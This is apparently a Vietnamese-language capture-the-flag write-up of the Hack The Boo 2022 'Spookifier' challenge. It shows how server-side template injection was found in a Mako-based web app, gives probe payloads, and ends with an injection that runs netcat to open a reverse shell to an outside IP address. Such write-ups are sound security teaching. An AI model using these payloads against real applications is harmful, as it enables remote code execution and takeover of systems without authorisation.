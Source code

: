 # **Hack The Boo CTF 2022**
## **Spookifier** 
___
### **Description:**

There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?
```
142.93.35.129:30478
```
___
### **Recon:**

Nhập vào một test và web sẽ render ra 4 font chữ cho ta.

![1.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Spookifier/img/1.png)

Nhập vào một test và web sẽ render ra 4 font chữ cho ta.

Sau khi đọc source thì mình biết là web này sử dụng Template Mako. SSTI!

Mình sử dụng [payload](https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/) này và tiến hành test các dự đoán

```
test=${7*'7'}
```
![2.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Spookifier/img/2.png)

```
test=${self.module.cache.util.os}
```
![3.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Spookifier/img/3.png)


Nhưng mình không thể thực hiện command
```
test=${self.module.cache.util.os.system("id")}
```
![6.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Spookifier/img/6.png)

Mình chạy ở máy local và phát hiện command vẫn được thực hiện nhưng lại không xuất kết quả ra cho mình xem. Dùng reverse shell!

![4.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Spookifier/img/4.png)

### **Exploit:**

Sau khi test trên local thì mình quyết định sử dụng:

```
test=${self.module.cache.util.os.system("nc 18.139.9.214 12320 -e /bin/sh")}
```
![5.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Spookifier/img/5.png)
